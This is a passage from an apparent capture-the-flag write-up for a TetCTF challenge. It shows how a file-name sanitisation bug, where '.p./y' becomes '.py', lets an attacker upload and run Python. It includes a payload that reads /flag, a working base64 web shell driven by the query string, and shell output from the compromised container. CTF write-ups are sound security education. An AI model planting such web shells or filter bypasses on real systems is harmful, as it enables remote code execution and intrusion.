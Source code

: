 ```python
    write_location('/uploads/' + normalized_name)
```

The `valid_file_name` function ensures that the file name is a relative path and doesn’t contain `..` nor `.py`. However, since it doesn’t check the file name again after sanitization, we can abuse the sanitization to bypass the filter. By supplying a file with `.p./y` extension, the normalization will remove the `./`from the file name and give us the desire `.py` extension.

Simply upload file with `import os;os.system('cat /flag')` give us the flag.

``` plaintext
part 1 flag: TetCTF{65e95f4eacc1fe7010616e051f1c610a}
```

# Persistance

Even though we can execute our own command now, but it’s rather annoying that we need to upload a new file each time we need to execute a new command, therefore I decided to upload a web shell, so I can easily execute command as I wish.

```python
import socket
import base64
import os
cmd = os.environ.get('QUERY_STRING')
os.system(base64.b64decode(cmd))
#curl [server]/uploads/webshell.py?[base64 encoded command]
```

This simple web shell takes a base64 encoded command as it’s query string, execute it, and show it’s result. I later write a simple script to interact it and use it as a shell.

```python
webshell $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# One step deeper

From the result above we can see that we are only www-data, and have pretty limited permission. Listing the root directory shows that there is a flag2 file only readable as daemon. From the upload.py file we know that there is a authorization service run on the server run by the daemon. The service seems to be running the auth file that also located in the root directory (results of ps aux also confirms this). I copy the auth file to the upload directory, change the permission, then curl the server from local machine to get the binary to local machine.

```python
webshell $ ls -al /
total 864
drwxr-xr-x   1 root   root     4096 Jan  1 00:06 .
drwxr-xr-x   1 root   root     4096 Jan  1 00:06 ..
-rwxr-xr-x   1 root   root        0 Jan  1 00:06 .dockerenv
-r-xr--r--   1 daemon daemon 802768 Dec 31 22:39 auth
lrwxrwxrwx   1 root   root        7 Oct  6 16:47 bin -> usr/bin
drwxr-xr-x   2 root   root     4096 Apr 15  2020 boot
drwxr-xr-x   5 root   root      340 Jan  1 03:44 dev
drwxr-xr-x   1 root   root     4096 Jan  1 00:06 etc
-r--r--r--   1 root   root       41 Jan  1 00:03 flag
-r--------   1 daemon daemon     41 Jan  1 00:03 flag2
drwxr-xr-x   2 root   root     4096 Apr 15  2020 home
lrwxrwxrwx   1 root   root        7 Oct  6 16:47 lib -> usr/lib
lrwxrwxrwx   1 root   root        9 Oct  6 16:47 lib32 -> usr/lib32
lrwxrwxrwx   1 root   root        9 Oct  6 16:47 lib64 -> usr/lib64
lrwxrwxrwx   1 root   root       10 Oct  6 16:47 libx32 -> usr/libx32
drwxr-xr-x   2 root   root     4096 Oct  6 16:47 media
drwxr-xr-x   2 root   root     4096 Oct  6 16:47 mnt
```